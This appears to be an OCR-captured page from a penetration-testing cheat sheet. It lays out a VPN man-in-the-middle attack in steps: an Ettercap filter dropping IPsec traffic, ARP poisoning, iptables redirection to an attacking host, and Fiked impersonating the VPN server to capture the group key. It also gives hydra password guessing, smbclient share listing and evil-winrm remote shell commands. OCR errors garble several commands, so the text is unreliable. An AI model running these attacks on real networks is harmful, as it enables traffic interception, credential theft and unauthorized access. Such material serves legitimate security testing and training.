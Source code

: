 ```text
Must know the VPN group name a~d pre-shared key;
1. Ettercap filter to drop IPSEC traffic (UDP port 500)
   if(ip.proto == UDP && udp.scc == 500) {
      kill();
      drop();
      msg (" UDP packet dropped ") ;
2. Compile filter
   etterfilter udpdrop.filter -o udpdrop.ef
3. Start Ettercap and drop all IPSEC ~raffic
   #ettercap -T -g -M arp -F udpdrop.ef // //
4. Enable IP Forward
   echo "1" /proc/sys/net/ipv4/ip_forward
5. Configure IPtables to port forward to Fiked server
    iptables -t nat -A PREROUTING -p udp -I eth0 -d VPN Server IP -j
   DNAT - - to Attacking Host IP
    iptables -P FORWARD ACCEP~
6. Start Fiked to impersonate the VPN Server
   fiked - g vpn gatewa; ip - k VPN Group Name:Group Pre-Shared Ke;
7. Stop Ettercap
8. Restart Ettercap without the filter
   ettercap -T -M arp II II
```

### Guess username with hydra

```text
hydra -L ~/seclists/Usernames/Names/femalenames-usa-top1000.txt -p Welcome123! IP PROTOCOL
```

### Display smb paths with smbclient

```text
smbclient -U USERNAME -L IP
```

### Accessing the system environment using WRM

```text
ruby evil-winrm.rb -u USER -p PASS -i IP
```

## Directing local traffic to a specified address

```text
simpleproxy -L 8000 -R 10.10.10.10:1337
```

## Putty software

### Registry key to report any operation by putty (even commands and outputs)
